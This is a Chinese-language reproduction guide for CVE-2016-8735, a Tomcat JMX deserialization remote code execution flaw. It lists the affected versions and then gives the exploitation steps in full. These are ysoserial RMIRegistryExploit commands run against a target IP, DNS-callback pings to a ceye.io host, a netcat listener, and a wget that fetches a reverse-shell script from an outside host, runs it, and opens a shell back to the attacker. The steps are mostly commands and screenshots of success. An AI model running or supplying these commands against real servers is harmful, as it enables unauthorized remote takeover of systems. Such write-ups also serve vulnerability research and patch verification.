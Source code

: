 （CVE-2016-8735）Tomcat 反序列化漏洞
====================================

一、漏洞简介
------------

该漏洞与之前Oracle发布的mxRemoteLifecycleListener反序列化漏洞（CVE-2016-3427）相关，是由于使用了JmxRemoteLifecycleListener的监听功能所导致。而在Oracle官方发布修复后，Tomcat未能及时修复更新而导致的远程代码执行。
该漏洞所造成的最根本原因是Tomcat在配置JMX做监控时使用了JmxRemoteLifecycleListener的方法。

二、漏洞影响
------------

ApacheTomcat 9.0.0.M1 到9.0.0.M11 ApacheTomcat 8.5.0 到8.5.6
ApacheTomcat 8.0.0.RC1 到8.0.38 ApacheTomcat 7.0.0 到7.0.72 ApacheTomcat
6.0.0 到6.0.47

三、复现过程
------------

### 漏洞利用条件：

外部需要开启JmxRemoteLifecycleListener监听的10001和10002端口，来实现远程代码执行。

### 构造命令

Win ping一次命令：

    ping -n 1 qjkpla.ceye.io

Linux ping 一次命令：

    ping -c 1 qjkpla.ceye.io

利用Ceye回显看是否存在漏洞:

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io"

![](./.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId26.png)

DNS回显能返回数据，说明执行了Ping命令，也就是说漏洞存在

![](./.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId27.png)

直接NC监听服务：

    nc -l -vv 12555

![](./.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId28.png)

然后构造命令：下载我们的反弹脚本:(之前用bash命令反弹没有成功所以使用Python脚本进行反弹)

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py"

执行完此命令继续构造命令，去执行刚在wget的脚本

    java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞IP 端口Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口"

![](./.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId29.png)

成功反弹：

![](./.resource/(CVE-2016-8735)Tomcat反序列化漏洞/media/rId30.png)

image
